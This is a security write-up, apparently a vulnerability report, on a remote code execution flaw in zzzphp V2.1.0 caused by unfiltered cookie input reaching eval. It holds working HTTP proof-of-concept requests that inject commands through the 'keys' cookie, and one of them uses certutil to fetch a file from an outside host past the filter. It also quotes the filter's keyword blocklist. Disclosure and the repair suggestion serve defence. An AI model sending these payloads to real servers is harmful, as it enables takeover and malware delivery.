# zzzphp V2.1.0 RCE

## Vulnerability Analysis
Audit code download from: http://115.29.55.18/zzzphp.zip



Global search keywords: `eval`


Here you can see that the relationship of the controllable variables is: `$arr -> $ifstr -> $matcher -> $zcontent`


where `$zcontent` is a global variable:

After a bunch of processing above, it finally enters `$this->parserIfLabel($zcontent)` (where exists eval function)

Next, audit whether each function in front of `parserIfLabel()` can pass parameters to control `$zcontent`.

So search the `$zcontent` keyword globally in this file and find the `$this->parserSearch ( $zcontent )` function:


It means to replace `{zzz:keys}` in `$zcontent` with `$keywords`, trace back the value of `$keywords`, and find that it is just possible to pass parameters through cookies, and there is no filtering:


Continue to trace the trigger point of the `$this->parserSearch ( $zcontent )` function is called in `$this->parserlocation ( $zcontent )`, and the parserlocation function happens to be in the above functions:



To enter the parserSearch function, the premise is that the `$location` parameter is search, follow the `G()` function, and find that the parameters are obtained globally:


Then you can enter the vulnerability point function through `/index.php?location=search`, and then control the `Cookie: keys=xx` to control the input eval Malicious code.

Dynamic debugging found that `{zzz:keys}` is fixed in $zcontent after being processed by the previous function:


So directly control the `Cookie: keys=poc` can control $zcontent, and further control the content executed by eval:
Construct the poc request of the bullet calculator:
```
GET /zzzcms/?location=search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookies: keys={if:=`calc`}{end if}
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

The debugging trace shows that the poc we constructed can be extracted after regular matching: `calc`


Then it will go through the filtering of the `danger_key()` function, and the keywords that are found to be filtered are:
`array('php','preg','server','chr','decode','html','md5','post','get','request','file','cookie','session','sql','mkdir','copy','fwrite','del','encrypt','$','system','exec','shell','open','ini_','chroot','eval','passthru','include','require','assert','union','create','func','symlink','sleep','ascii','print','echo','base_','replace','_map','_dump','_array','regexp','select','dbpre','zzz_','{if','curl')`

But it does not affect the execution of the command



## Command Execution
```
GET /zzzcms/?location=search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookies: keys={if:=`calc`}{end if}
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


## Remote Download
Since `danger_key()` filters the `curl` command, but it can use the `certutil` command for remote download operations in Windows:
```
GET /zzzcms/?location=search HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: keys={if:=`certutil -urlcache -split -f http://192.168.2.104:8080/test`}{end if}
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```


## Repair suggestion
in `E:\xxx\zzzcms\inc\zzz_template.php Line 1895` Using `danger_key()` function pairs `$keywords = getform ('keys', 'cookie');` Filter

